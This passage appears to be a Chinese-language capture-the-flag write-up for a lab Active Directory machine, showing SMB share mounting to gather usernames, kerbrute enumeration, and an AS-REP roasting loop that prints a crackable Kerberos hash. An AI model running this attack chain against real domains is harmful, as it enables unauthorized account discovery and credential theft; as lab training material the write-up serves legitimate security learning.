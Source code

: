 想把它们下载下来，做成用户名字典，但是 mget 失败了

```bash
smb: \> recurse on
smb: \> prompt off
smb: \> mget *
```

于是使用挂载目录的方法：

```bash
└─# mount -t cifs //10.10.10.192/profiles$ /mnt
Password for root@//10.10.10.192/profiles$: 
```

```bash
─# ls -1 /mnt/ > user.list      
```



# AS-REP Roast

之前得到了用户名列表，可以尝试 88 端口的用户名枚举

```bash
└─# ../Desktop/kerbrute_linux_amd64 userenum --dc 10.10.10.192 -d BLACKFIELD.local user.list 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 09/16/23 - Ronnie Flathers @ropnop

2023/09/16 22:41:22 >  Using KDC(s):
2023/09/16 22:41:22 >  	10.10.10.192:88

2023/09/16 22:41:48 >  [+] VALID USERNAME:	 audit2020@BLACKFIELD.local
2023/09/16 22:44:14 >  [+] VALID USERNAME:	 support@BLACKFIELD.local
2023/09/16 22:44:15 >  [+] VALID USERNAME:	 svc_backup@BLACKFIELD.local
```

把这些用户名整理为 `user_new.list`



尝试 枚举 不需要进行域身份验证的用户

```bash
└─# for user in $(cat user_new.list); do GetNPUsers.py -no-pass -dc-ip 10.10.10.192 blackfield.local/$user | grep krb5asrep; done
$krb5asrep$23$support@BLACKFIELD.LOCAL:15b93a99dfd3dc221c6e82126cdbb97e$842327d6431b7d14066468066440b144b733838ae7acebccdb42b21c3cd95136949782888b45f5c4b87960c749fb917c05328637c4582e721aeef53af98b488683c3276fb7ec99ae6bd304d1c366730d8b1dd130d46b4d41805e9fa91e139a6e574c9d197d72bfd15eef4f9af55cd5354010fbb03d5ca73f982ab7c9837d275b98c518662eab245ba19184dc0e2c739f1f5665f47248ca1a9cf71f44b31e54b7768d696978bd1620963678fbcb707bbf6cc9d37b5eb6f070c71d1d41bb112b6daaa1894c4ed51079d872e82325b156a08511b7ca9a5ac9aeabc2e38f94ab048d4d732fafde253e30d38bd0cccf21502c5fa14739
```
